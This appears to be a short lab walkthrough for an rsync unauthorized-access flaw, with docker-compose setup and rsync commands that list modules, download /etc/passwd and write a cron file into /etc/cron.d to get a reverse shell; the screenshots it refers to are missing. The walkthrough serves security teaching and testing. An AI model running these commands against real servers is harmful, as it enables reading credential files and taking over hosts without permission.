

# rsync Unauthorized Access Vulnerability

Rsync is a data backup tool for Linux. It supports remote file transfer via rsync protocol and ssh protocol. The rsync protocol listens to port 873 by default. If the target has the rsync service enabled and no ACL or access password is configured, we will be able to read and write the target server file.

## Vulnerability Testing

Compile and run the rsync server:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, we use the rsync command to access it:

```
Rsync rsync://your-ip:873/
```

You can view a list of module names:


As shown above, there is a src module, and we will list the files under this module:

```
Rsync rsync://your-ip:873/src/
```



This is a Linux root directory and we can download any file:

```
Rsync -av rsync://your-ip:873/src/etc/passwd ./
```

Or write to any file:

```
Rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

We wrote a cron task and successfully bounced the shell:

